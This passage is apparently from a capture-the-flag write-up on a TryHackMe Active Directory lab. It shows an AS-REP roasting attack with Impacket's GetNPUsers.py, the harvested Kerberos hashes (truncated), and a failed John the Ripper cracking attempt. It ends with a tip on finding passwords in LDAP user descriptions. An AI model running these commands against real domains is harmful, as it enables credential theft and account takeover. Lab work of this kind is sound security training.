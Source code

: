 
Did an asreproast att&ck to request encrypted authentication responses for accounts in the domain that have Kerberos pre-authentication disabled


```bash
❯ GetNPUsers.py thm.local/ -usersfile users.txt -outputfile ASREProastables.txt -format hashcat -dc-ip 10.10.197.194
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set      
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set           
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User LABYRINTH$ doesn't have UF_DONT_REQUIRE_PREAUTH set    
[-] User greg doesn't have UF_DONT_REQUIRE_PREAUTH set             
[-] User SHANA_FITZGERALD doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User CAREY_FIELDS doesn't have UF_DONT_REQUIRE_PREAUTH set
--SNIP--
```

Got some valid users hashes in the output file

```bash
❯ head ASREProastables.txt
$krb5asrep$23$SHELLEY_BEARD@THM.LOCAL:de39120dd4bb0fdd4becd642935f593b$8c082ef20f5d--SNIP--551cf381578d90bf8e93
$krb5asrep$23$ISIAH_WALKER@THM.LOCAL:d8976d8c3c36750ff15cc0fbb054f883$ff7afcc1a4a87f465872eb3--SNIP--3c6269c5
$krb5asrep$23$QUEEN_GARNER@THM.LOCAL:cef75c1342342929fad0c60d7c3398b5$5cc1a0d65ecf54326bd--SNIP--c7436e59aa2fe7a333f5bc3998fb
$krb5asrep$23$PHYLLIS_MCCOY@THM.LOCAL:2f2117389ecafdd8611f698db494ba20$1bb07b877057c7--SNIP--66a9da07ba19dcfb74ded79081f89a1a
$krb5asrep$23$MAXINE_FREEMAN@THM.LOCAL:9564f0e67b17ccc700513c97485ec6ab$de12d030d0bc823ba84606a64266cc822--SNIP--ab7bc5b894

```


Tried cracking this hashes with John-the-Ripper but none could be cracked  


```bash
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:27 DONE (2025-07-15 09:36) 0g/s 97338p/s 486690c/s 486690C/s !!12Honey..*7¡Vamos!
Session completed. 
```


As a rule of thumb, checking user's description sometimes exposes password for users who store their password in this attribute, meanwhile `ldapsearch` has made this easy for us without authentication to the domain.

